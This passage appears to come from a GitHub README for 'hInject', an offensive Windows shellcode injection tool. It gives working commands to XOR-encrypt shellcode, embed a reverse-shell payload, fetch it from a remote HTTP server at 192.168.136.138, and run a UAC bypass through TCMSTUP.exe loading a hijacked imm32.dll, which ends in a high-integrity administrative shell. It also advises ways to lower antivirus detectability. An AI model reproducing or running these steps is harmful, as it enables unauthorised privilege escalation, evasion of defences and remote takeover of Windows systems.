 2. Encrypt the shellcode:
```bash
python3 parser_tool.py -f daijin.bin --xor-key ippyokai --binout uac.bin
```

3. Embed the shellcode as a resource named `SUZUME` (or update `resource.h` and `hInject.rc` if using a different name) or serve it from an HTTP server using the `--reuse` flag to reuse the sane http server for the shellcode as i did.

> **Note**: Avoid embedding Donut-generated shellcode directly, as it may increase detectability due to its size and entropy.

4. Generate and embed a reverse shell shellcode in the `uac.c` file (in the `uac` project) as an embedded resource.

5. Run the UAC bypass:
```bash
.\hInject.exe -m http -i 192.168.136.138 -p 80 -f /uac.bin --elevate --reuse --tapi32-manifest TAPI32.Manifest --injector MsCtfMonitor.dll --payload uac.dll
```
<img width="1699" height="787" alt="Pasted image 20250830075505" src="https://github.com/user-attachments/assets/ba43b187-272b-4581-9c94-1fc3c57799c6" />

The `TCMSTUP.exe` process loads `tapi32.dll`, which in turn loads the custom `imm32.dll`. If the activation context fails, it may load the default `imm32.dll` from `C:\Windows\System32`, causing the exploit to fail. Verify the loaded DLL using Process Explorer:

<img width="1672" height="577" alt="Pasted image 20250830080410" src="https://github.com/user-attachments/assets/baf31098-f746-45d9-be3f-a301b5e15a28" />

A successful bypass results in a shell with high integrity level and full administrative privileges:

<img width="1678" height="960" alt="Pasted image 20250830080510" src="https://github.com/user-attachments/assets/dfbdb799-823f-42dc-9ff2-17aaa5c641e5" />

### Named Pipe Method with UAC Bypass

The named pipe method works similarly. Provide the IP and port of the server hosting the necessary DLLs and place the Donut-generated trigger shellcode in the `PipeServer` project.

## Future Improvements

Future versions of **hInject** may include a native API shellcode injector for enhanced functionality. Contributions and custom delivery methods are welcome!

